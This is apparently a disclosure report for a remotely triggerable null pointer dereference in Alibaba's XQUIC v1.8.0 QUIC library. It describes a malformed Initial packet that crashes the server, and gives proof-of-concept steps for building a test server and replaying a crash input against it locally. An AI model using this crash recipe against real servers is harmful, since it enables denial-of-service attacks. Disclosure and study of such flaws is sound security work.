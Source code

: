 # Bug M10

## Product: XQUIC (Alibaba.inc)
### Github repository: [https://github.com/alibaba/xquic](https://github.com/alibaba/xquic)
### Affected version: [v1.8.0](https://github.com/alibaba/xquic/releases/tag/v1.8.0)
### Fixed version: N/A

### Bug summary:
A Null pointer dereference occurs and XQUIC server crashes, resulting in a Denial of Service attack.

### Bug details: 
An argument was set to an incorrect value(```NULL```) when calling ```xqc_log_TRA_PACKET_SENT_callback()```.

### Attack vector:
Remote attacker (on path) and the server is compiled with -DXQC_ENABLE_EVENT_LOG=1.

### Exploitation 
1) An attack send an Initial packet that filled 0x00 to all the header fields (expect the first byte) and carry PADDING frames.
2) This will trigger a Version Negotiation packet from the server. While the server is sending the packet, it calls a callback function, ```xquic/src/common/xqc_log_event_callback.c:xqc_log_TRA_PACKET_SENT_callback()``` with the incorrect arguments as shown below:
```
xqc_log_event(conn->log, TRA_PACKET_SENT, conn, packet_out, NULL, 0, sent, 0);
```
The fifth argument should not be ```NULL``` as it will later be dereferenced to get the path_id. This leads to a Null pointer dereference.

### PoC
Build the xquic test_server as described in the following (assumed you are in same directory as this README.md):
```bash
git clone https://github.com/alibaba/xquic.git
cp xquic_for_developers.patch xquic.crt xquic.key xquic
cd xquic

git clone https://github.com/google/boringssl.git ./third_party/boringssl
cd ./third_party/boringssl
mkdir -p build && cd build
cmake -DBUILD_SHARED_LIBS=0 -DCMAKE_C_FLAGS="-fPIC" -DCMAKE_CXX_FLAGS="-fPIC" ..
make ssl crypto
cd ..
export SSL_TYPE_STR="boringssl"
export SSL_PATH_STR="${PWD}"
cd ../..
git checkout 6803065
git submodule update --init --recursive
git apply xquic_for_developers.patch
mkdir -p build; cd build
cmake -DGCOV=on -DCMAKE_BUILD_TYPE=Debug -DXQC_ENABLE_TESTING=1 -DXQC_SUPPORT_SENDMMSG_BUILD=1 -DXQC_ENABLE_EVENT_LOG=1 -DXQC_ENABLE_BBR2=1 -DXQC_ENABLE_RENO=1 -DSSL_TYPE=${SSL_TYPE_STR} -DSSL_PATH=${SSL_PATH_STR} ..
make -j
cd ..

# start the server
./build/tests/test_server -a 127.0.0.1 -p 4433
```
Open another terminal, build the replay_crash program and run with the given crash input (assumed you are in same directory as this README.md):
```bash
cd ..
make
../replay_crash xquic_crash_bug3_small 4433
```